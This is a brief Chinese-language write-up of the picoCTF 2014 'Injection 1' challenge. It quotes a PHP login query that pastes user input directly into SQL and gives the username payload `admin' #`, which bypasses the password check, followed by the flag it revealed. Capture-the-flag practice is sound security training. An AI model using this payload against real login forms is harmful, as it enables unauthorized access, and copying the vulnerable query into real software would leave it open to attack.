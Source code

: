 # Injection 1
拿到[網站](http://web2014.picoctf.com/injection1/) [php原始碼](http://web2014.picoctf.com/injection1/login.phps)，發現有sql injection vulnerability
 * 組成query的code：
```php
$query = "SELECT * FROM users WHERE username='$username' AND password='$password'";
```
 * 拿flag的確認code：
```php
if (mysqli_num_rows($result) !== 1)
```
 * 所以只要讓query結果正好等於1個就行，參考 [MySQL語法註解符](https://dev.mysql.com/doc/refman/5.1/en/comments.htm)，在username填入`admin' #`

```
Logged in!

Your flag is: flag_vFtTcLf7w2st5FM74b
```
